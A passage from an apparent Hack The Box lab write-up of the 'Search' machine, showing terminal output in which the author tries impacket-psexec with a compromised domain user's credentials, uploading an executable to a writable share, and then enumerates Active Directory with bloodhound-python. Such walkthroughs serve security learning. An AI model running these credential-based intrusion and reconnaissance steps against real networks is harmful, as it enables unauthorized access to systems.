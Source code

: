 But nothing useful...

**Then I tried to use `impacket-psexec` to gain initial foothold, but no dice:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:45:43(HKT)]
└> impacket-psexec research.search.htb/hope.sharp:{Redacted}@research.search.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on research.search.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'CertEnroll' is not writable.
[-] share 'helpdesk' is not writable.
[-] share 'NETLOGON' is not writable.
[*] Found writable share RedirectedFolders$
[*] Uploading file mviCJdyM.exe
[*] Opening SVCManager on research.search.htb.....
[-] Error opening SVCManager on research.search.htb.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

**Moreover, we can also use user `hope.sharp`'s credentials to use [bloodhound.py](https://github.com/fox-it/BloodHound.py) to collect and analyze all information about the Active Directory environment:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:57:07(HKT)]
└> bloodhound-python -u hope.sharp -p '{Redacted}' -ns $RHOSTS -d search.htb -c all
INFO: Found AD domain: search.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 113 computers
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 107 users
INFO: Found 64 groups
INFO: Found 6 gpos
INFO: Found 27 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Windows-100.search.htb
[...]
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|15:58:45(HKT)]
└> file 202307271557*
20230727155709_computers.json:  JSON text data
20230727155709_containers.json: JSON text data
20230727155709_domains.json:    JSON text data
20230727155709_gpos.json:       JSON text data
20230727155709_groups.json:     JSON text data
20230727155709_ous.json:        JSON text data
20230727155709_users.json:      JSON text data
20230727155758_computers.json:  JSON text data
20230727155758_containers.json: JSON text data
20230727155758_domains.json:    JSON text data
20230727155758_gpos.json:       JSON text data
20230727155758_groups.json:     JSON text data
20230727155758_ous.json:        JSON text data
20230727155758_users.json:      JSON text data
```
